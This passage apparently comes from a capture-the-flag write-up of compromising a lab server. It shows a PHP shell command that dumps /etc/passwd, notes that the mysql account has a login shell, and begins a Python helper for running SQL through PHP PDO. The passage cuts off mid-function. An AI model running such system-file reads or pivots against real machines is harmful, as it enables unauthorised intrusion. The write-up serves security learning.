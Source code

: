 ```php
php> echo file_get_contents("/etc/passwd");
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
sysadmin:x:1000:1000:compromise:/home/sysadmin:/bin/bash
mysql:x:111:113:MySQL Server,,,:/var/lib/mysql:/bin/bash
red:x:1001:1001::/home/red:/bin/false
```

We can lists and read files on the system. Reading /etc/passwd, I noticed something very interesting: the mysql has /bin/bash assigned instead of /bin/false. This could come in handy later on. Furthermore, only three users in total have a shell set by default: `root`, `sysadmin` and `mysql`.

#### Accessing MySQL

Remembering back, we said that if we ever get access to the internal network, we can try to access MySQL. As we have PHP-CE on the server, we can try to access MySQL via PHP PDOs.

For this I created a function called `sql_shell`:

{% raw %}
```python
def sql_shell() -> None:
    """
    Creates a pseudo sql-shell to execute SQL-statments
    """
    print("""Usage:
            {sql}       ... execute sql statement
            exit|quit   ... exit sql-shell""")
    
    while True:
        sql = input("sql> ")
        if "exit" in sql or "quit" in sql:
            return
        elif sql.strip() == "":
            print("""Usage:
            {sql}       ... execute sql statement
            exit|quit   ... exit sql-shell""")

```